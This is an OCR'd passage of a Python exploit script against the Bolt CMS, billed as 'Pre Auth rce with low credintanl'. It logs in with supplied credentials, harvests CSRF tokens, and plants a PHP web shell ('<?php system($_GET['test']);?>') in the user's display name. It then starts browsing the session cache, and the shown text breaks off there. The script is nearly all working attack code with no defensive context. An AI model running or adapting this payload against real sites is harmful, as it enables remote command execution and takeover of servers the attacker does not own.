 ```
▐░░░░░░░░░░▌ ▐░░░░░░░░░░░▌▐░░░░░░░░░░░▌▐░▌     ▐░░░░░░░░░░░▌▐░▌       ▐░▌▐░░░░░░░░░░░▌
 ▀▀▀▀▀▀▀▀▀▀   ▀▀▀▀▀▀▀▀▀▀▀  ▀▀▀▀▀▀▀▀▀▀▀  ▀       ▀▀▀▀▀▀▀▀▀▀▀  ▀         ▀  ▀▀▀▀▀▀▀▀▀▀▀

Pre Auth rce with low credintanl
#Zero-way By @r3m0t3nu11 speical thanks to @dracula @Mr_Hex''',"blue"))



if len(sys.argv) != 4:
    print((len(sys.argv)))
    print((colored("[~] Usage : ./bolt.py url username password","red")))
    exit()
url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]



request = requests.session()
print((colored("[+] Retrieving CSRF token to submit the login form","green")))
page = request.get(url+"/bolt/login")
html_content = page.text
soup = BeautifulSoup(html_content, 'html.parser')
token = soup.findAll('input')[2].get("value")

login_info = {
    "user_login[username]": username,
    "user_login[password]": password,
    "user_login[login]": "",
     "user_login[_token]": token
   }

login_request = request.post(url+"/bolt/login", login_info)
print((colored("[+] Login token is : {0}","green")).format(token))



aaa = request.get(url+"/bolt/profile")
soup0 = BeautifulSoup(aaa.content, 'html.parser')
token0 = soup0.findAll('input')[6].get("value")
data_profile = { 
        "user_profile[password][first]":"password",
        "user_profile[password][second]":"password",
        "user_profile[email]":"a@a.com",
        "user_profile[displayname]":"<?php system($_GET['test']);?>",
        "user_profile[save]":"",
        "user_profile[_token]":token0

                }
profile = request.post(url+'/bolt/profile',data_profile)




cache_csrf = request.get(url+"/bolt/overview/showcases")

soup1 = BeautifulSoup(cache_csrf.text, 'html.parser')
csrf = soup1.findAll('div')[12].get("data-bolt_csrf_token")


asyncc = request.get(url+"/async/browse/cache/.sessions?multiselect=true")
soup2 = BeautifulSoup(asyncc.text, 'html.parser')
tables = soup2.find_all('span', class_ = 'entry disabled')
```